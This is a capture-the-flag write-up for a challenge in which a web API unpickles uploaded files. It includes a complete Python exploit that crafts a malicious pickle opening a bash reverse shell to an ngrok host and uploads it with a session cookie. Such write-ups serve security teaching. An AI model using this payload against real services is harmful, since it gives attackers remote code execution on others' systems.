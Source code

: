 # TEXT ADVENTURE API

Challenge Description:

> Explore my kitchen!

> https://text-adventure-api.chall.pwnoh.io/api

## Analyzing the website

The source code at `server.py` have some API's which we can call using curl or other tools. They are used to move to other locations as specified in the `rooms` object as specified in the file. We can also interact with the given objects as well. The important part though is in the `/api/load` API which loads a `.pkl` file and is then unpickled. Unpickling untrusted input is always not good and more information is given in the references if you wish to learn more.

All we have to do is put our payload into a `.pkl` file and call the `/api/load` function with the file as input. This should get us RCE and hopefully a reverse shell.

The below script will the do the job for us. The exploit generates the pickled code and puts it into the `exploit.pkl` file. We then start a netcat listener on any port in our system and map it to a `ngrok tcp` port(In the below case 16648). Once the exploit is uploaded to the server, we should get back a connect and we can cat back the flag.<br>

```python
import pickle
import requests
import os

def delete_exploit_file():
    filename_to_check = 'exploit.pkl'
    if os.path.isfile(filename_to_check):
        try:
            os.remove(filename_to_check)
            print(f"File '{filename_to_check}' has been deleted.")
        except Exception as e:
            print(f"Error deleting '{filename_to_check}': {e}")
    else:
        print(f"File '{filename_to_check}' does not exist in the current directory.")

def get_session():
    url = "https://text-adventure-api.chall.pwnoh.io/api/move"
    headers = {'Content-Type': 'application/json'}
    data = {'exit': 'table'}
    response = requests.post(url, json=data, headers=headers)
    session_cookie = response.cookies.get('session')
    if session_cookie:
        print(f'Session Cookie: {session_cookie}')
        return session_cookie
    else:
        print('Session Cookie not found in response.')

def send_exploit(session_cookie):
    cookies = {'session': f'{session_cookie}'}
    url = "https://text-adventure-api.chall.pwnoh.io/api/load"
    files = {'file': ('exploit.pkl', open('exploit.pkl', 'rb'))}
    response = requests.post(url, files=files, cookies=cookies)

class RCE:
    def __reduce__(self):
        return (os.system, ('/bin/bash -c "/bin/bash -i > /dev/tcp/0.tcp.in.ngrok.io/16648 0>&1 2>&1"',))


delete_exploit_file()
exploit = open('exploit.pkl', 'ab')
pickled = pickle.dump(RCE(), exploit)
exploit.close()

session = get_session()
send_exploit(session)
```

## References

1. https://medium.com/@satyender.yadav/valentine-ctf-pickle-jar-2b92551510db
2. https://davidhamann.de/2020/04/05/exploiting-python-pickle/
3. https://ctftime.org/writeup/36628